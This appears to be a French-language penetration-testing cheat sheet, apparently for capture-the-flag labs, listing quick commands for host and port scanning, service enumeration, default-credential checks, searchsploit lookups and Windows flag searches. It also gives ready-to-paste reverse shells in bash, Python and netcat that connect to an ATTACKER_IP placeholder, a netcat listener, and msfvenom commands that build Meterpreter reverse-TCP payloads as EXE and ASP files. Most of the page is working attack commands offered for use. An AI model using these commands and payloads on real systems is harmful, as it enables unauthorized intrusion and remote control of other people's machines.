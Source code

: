 # ⚡ Commandes Rapides

[← Retour à la table des matières](../README.md)

## Scan initial rapide
```bash
# Host discovery
nmap -sn target.0/24

# Port scan rapide
nmap -F targetIP

# Scan complet
nmap -sC -sV -O targetIP
```

## Énumération express par service
```bash
# HTTP
gobuster dir -u http://targetIP -w /usr/share/wordlists/dirb/common.txt

# SMB
enum4linux -a targetIP
smbclient -L targetIP -N

# FTP
ftp targetIP  # anonymous:anonymous

# SSH
ssh targetIP  # Tester comptes par défaut
```

## Reverse shells rapides
```bash
# Bash
/bin/bash -c 'bash -i>&/dev/tcp/ATTACKER_IP/PORT 0>&1'

# Python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ATTACKER_IP",PORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

# Netcat
nc -e /bin/sh ATTACKER_IP PORT
```

## Listener
```bash
nc -nvlp PORT
```

## Recherche d'exploits
```bash
# Searchsploit pour trouver des exploits
searchsploit service_name
searchsploit hfs
searchsploit "rejetto"
```

## Commandes Windows utiles

### Recherche de flags
```cmd
# Liste des répertoires
dir C:\

# Lecture d'un fichier
type C:\path\to\flag.txt

# Recherche récursive
dir C:\ /s /b | findstr flag
```

### Connexion RDP depuis Linux
```bash
xfreerdp /u:username /p:password /v:targetIP:targetPort
```

## Génération rapide de payloads
```bash
# Meterpreter Windows
msfvenom -p windows/meterpreter/reverse_tcp LHOST=KALI_IP LPORT=1234 -f exe > shell.exe

# ASP pour WebDAV
msfvenom -p windows/meterpreter/reverse_tcp LHOST=KALI_IP LPORT=1234 -f asp > shell.asp
```